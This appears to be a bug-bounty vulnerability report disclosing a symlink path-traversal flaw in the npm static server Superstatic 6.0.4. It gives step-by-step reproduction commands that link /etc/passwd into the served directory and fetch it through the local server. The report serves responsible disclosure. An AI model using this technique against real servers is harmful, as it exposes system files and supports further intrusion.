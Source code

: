 # Description

I would like to report path traversal vulnerability in Superstatic module
It allows an attacker to read system files via path traversal vulnerability

Module
-------------------------------------------
module name: Superstatic
version: 6.0.4
npm page: https://www.npmjs.com/package/superstatic

Module Description

Superstatic is an enhanced static web server that was built to power. It has fantastic support for HTML5 pushState applications, clean URLs, caching, and many other goodies.
By default, Superstatic will simply serve the current directory

Weekly Downloads
-------------------------------------------
335,788

Vulnerability Description
-------------------------------------------
With a symbolically linked file in the working directory, it is possible to read arbitrary files outside of the web root directory.


# POC

Steps To Reproduce:
-------------------------------------------

1)Install the Superstatic module
$ npm install -g superstatic

2)Make a directory
$ mkdir test

3)Go to 'test' directory
$ cd test

4)create a symlink file
ln -s /etc/passwd 'filename'

5)Run Superstatic module
$ Superstatic

6)Request the file within browser
http://localhost:3474/'filename'


Supporting Material/References:
-------------------------------------------

These are similar reports
https://hackerone.com/reports/510043
https://hackerone.com/reports/695416


Impact
-------------------------------------------
This could have enabled an attacker to view system files and leverage attacks like remote code execution and so on
